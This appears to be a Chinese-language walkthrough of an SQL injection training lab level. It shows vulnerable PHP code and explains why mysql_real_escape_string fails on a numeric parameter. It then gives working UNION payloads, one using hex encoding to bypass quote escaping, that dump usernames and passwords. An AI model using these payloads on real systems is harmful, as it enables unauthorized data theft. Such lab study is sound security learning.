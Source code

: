 # sql4

进入example4.php

源码
```php
<?php
  require_once('../header.php');
  require_once('db.php');
  $sql="SELECT * FROM users where id=";
        $sql.=mysql_real_escape_string($_GET["id"])." ";
        $result = mysql_query($sql);


        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>

                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```

这里使用了mysql_real_escape_string来过滤\x00, \n, \r, \, ', " 和 \x1a这些特殊字符
但是它这里却是数字型注入不需要**'**或者**"**去闭合所以呢
这个mysql_real_escape_string函数没啥吊用
> 我错了还是有吊用的，在**information_schema.columns where table_name=**的这个地方是要加单引号或者双引号来把字符标明为字符串的，但是这里使用了mysql_real_escape_string这个函数把单引号和双引号给转义了![img](../../../image/sqli/3727350196628.png)所以查询失败，我纳闷了好久为啥没东西 出来就是因为这个转义(shit!!!)
不过这样也可以绕过，数据库会把这些语句给转成十六进制然后在执行，所以这里可以直接把users给编码成十六进制就可以执行了

直接正常注入就好
payload
```sql
example4.php?id=-1 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name=0x7573657273 %23
```
![img](../../../image/sqli/2478454189297.png)
之后查看字段名就好了
```sql
example4.php?id=-1 union select 1,group_concat(name),group_concat(passwd),4,5 from users %23
```
![img](../../../image/sqli/3560855185852.png)
拿到数据

| 请求方式 |               过滤方式               |                        注入方式                         |     闭合方式     |
| -------- | ----------------------------------- | ------------------------------------------------------- | --------------- |
| GET      | mysql_real_escape_string转义特殊字符 | 联合查询，把payload的要用到引号的地方转码成十六进制进行绕过 | 数字型不需要闭合 |

过关！！！！！！！
芜湖~起飞~~✈